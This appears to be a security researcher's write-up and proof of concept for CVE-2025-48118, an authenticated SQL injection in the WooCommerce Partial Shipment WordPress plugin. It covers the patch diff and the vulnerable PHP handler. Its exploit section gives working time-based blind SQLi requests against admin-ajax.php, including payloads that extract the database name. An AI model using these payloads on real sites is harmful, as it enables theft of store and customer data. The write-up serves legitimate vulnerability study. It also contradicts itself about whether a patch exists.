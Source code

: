 # CVE-2025-48118 Analysis & POC


---

The vulnerability occurs in the **Woocommerce Partial Shipment** plugin for WordPress prior to version **3.3**.  
It allows attackers to directly interact with the database, potentially leading to data theft and other attacks.

- **CVE ID**: [CVE-2025-48118](https://www.cve.org/CVERecord?id=CVE-2025-48118)  
- **Product**: [WordPress Woocommerce Partial Shipment Plugin](https://wordpress.org/plugins/wc-partial-shipment/advanced/)  
- **Vulnerability Type**: SQL Injection  
- **Affected Versions**: <= 3.2  
- **CVSS Severity**: High (8.5)  
- **Required Privilege**: Subscriber  

---

## Requirements
- [**Local WordPress and Debugging**](https://w41bu1.github.io/posts/wordpress-local-and-debugging/)
- **Woocommerce Partial Shipment**: v3.2 (vulnerable) and v3.3 (patched)
- **Diff Tool**: **meld** or any comparison tool to view differences between versions
- **Activated WooCommerce Plugin**: must be **activated** before installing **Woocommerce Partial Shipment Plugin**, since several WooCommerce functions are used.

---

## Analysis
The root cause lies in directly injecting **POST** request data into an SQL query without proper sanitization or validation.

### Patch Diff
Use any diff tool to compare the vulnerable and patched versions.  
A significant difference appears in **wc-partial-shipment/woocommerce-partial-shipment.php**.

However, since the developer made many changes, locating the vulnerable line can be difficult.

> In WordPress, for SQLi to occur, the application must interact with the database using the global variable `$wpdb`.  
> Searching for this keyword inside **wc-partial-shipment/woocommerce-partial-shipment.php** helps identify possible sinks.

![search sink](search_sink.png "Sink location found in source code")

`get_shipment_id` and `get_wxp_shipment_data` are two functions in the **WXP_Partial_Shipment** class that directly insert user input into SQL queries without validation, making them vulnerable to SQL Injection.

![Patch](patch.png "Comparison between vulnerable and patched version")

The patch uses `$wpdb->prepare()` to safely construct SQL queries instead of **direct string concatenation** with user input.  
This ensures all values are **properly escaped** before being inserted into the SQL query, effectively mitigating SQL Injection risks.

### How it works
Both `get_shipment_id` and `get_wxp_shipment_data` are called by the function `wxp_order_set_shipped` within the same class.

```php
function wxp_order_set_shipped(){
    $order_id = isset($_POST['order_id']) ? $_POST['order_id'] : 0;
    // other logic

    $wxp_shipment = $this->get_wxp_shipment_data($order_id);
    if(isset($_POST['order_id']) && $_POST['order_id']){
        global $wpdb;
        $shipment_id = $this->get_shipment_id($_POST['order_id']);
        if(!$shipment_id){
            $data = array(
                'order_id' =>$order_id,
                'shipment_id' =>1,
                'shipment_url'=>'',
                'shipment_num'=>'',
                'shipment_date'=>current_time('timestamp',0),
            );
            $wpdb->insert($wpdb->prefix."partial_shipment",$data,array('%d','%d','%s','%s','%s'));
            $shipment_id = $wpdb->insert_id;
        }
    // other logic     
    }

    echo json_encode(array('order_id'=>$order_id,'status'=>$status_key));
    exit();
}
````

👉 The `order_id` parameter is taken directly from the **POST request**, making it user-controlled and allowing it to be passed into vulnerable SQL queries within `get_shipment_id` and `get_wxp_shipment_data`.

To find where `wxp_order_set_shipped` is called, search for the keyword `wxp_order_set_shipped` inside the plugin directory.

![Search 1](search_1.png "Location of wxp_order_set_shipped function call")

`wxp_order_set_shipped` is registered in the class constructor as a callback for the `wp_ajax_wxp_order_set_shipped` hook, meaning it can be triggered by authenticated users.

👉 Accessing `/wp-admin/admin-ajax.php` with the parameters:

```http
action=wxp_order_set_shipped&order_id=payload_here
```

will trigger the following:

* The callback `wxp_order_set_shipped` executes.
* `order_id` is taken directly from the request and inserted into SQL queries.
* The query executes twice due to its usage in two separate SQL calls containing the malicious payload.

---

## Exploit

### Detecting SQLi

Send a **POST request** containing an SQLi payload:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...
Cookie: cookie_here

action=wxp_order_set_shipped&order_id=(SELECT 1 FROM (SELECT SLEEP(5))a)
```

This results in the query:

```sql
SELECT id as ship_id FROM wp_partial_shipment WHERE order_id=(SELECT 1 FROM (SELECT SLEEP(5))a)
```

Because the query executes twice, the response time doubles.

![time response](time_resp.png "Response time after successful exploitation")

A **subquery in the FROM clause** is used because MySQL treats it as a temporary table.
The subquery executes once to create the temporary table, and the main query runs afterward.
This ensures the `SLEEP` function runs only once instead of being multiplied across multiple comparisons.

For example, using the following payload:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...
Cookie: cookie_here

action=wxp_order_set_shipped&order_id=(SELECT SLEEP(5))
```

The response time increases exponentially.

![search 2](search_2.png "Exponential response time increase")

### Extracting the First Letter of the Database Name

The first step in data extraction is confirming at least one character of the **database name** — once retrieved, the rest can be dumped easily.

Send a request with the following **SQLi payload**:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...
Cookie: cookie_here

action=wxp_order_set_shipped&order_id=(SELECT 1 FROM (SELECT IF(SUBSTRING(SCHEMA(),1,1)=0x77, SLEEP(5), 1))a)
```

Here, `SUBSTRING()` extracts the first letter of the **database name**, and `IF()` triggers `SLEEP(5)` if it equals `0x77` ('w').

Hex encoding (`0x77`) is used for `'w'` because the `order_id` parameter, being a **POST** value, is escaped by [magic quotes](https://patchstack.com/academy/wordpress/vulnerabilities/sql-injection/#magic-quotes) and `sanitize_text_field` in WordPress.

👉 Based on the delayed response, we confirm that the first character is `'w'`.

---

## Conclusion

The **CVE-2025-48118** vulnerability in the WordPress **Woocommerce Partial Shipment** plugin (versions before 3.3) originates from directly inserting unsanitized user input into SQL queries, resulting in a **SQL Injection** vulnerability.

No official patch has been released at the time of writing.

**Key Takeaways:**

* Always validate and sanitize user input.
* Use `$wpdb->prepare()` for database operations in WordPress to prevent SQL Injection.
* Keep plugins updated and perform regular security audits to avoid being an attack target.

---

## References

[SQL Injection Cheat Sheet - PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[WordPress Woocommerce Partial Shipment Plugin <= 3.2 vulnerable to SQL Injection](https://patchstack.com/database/wordpress/plugin/wc-partial-shipment/vulnerability/wordpress-woocommerce-partial-shipment-3-2-sql-injection-vulnerability)

---
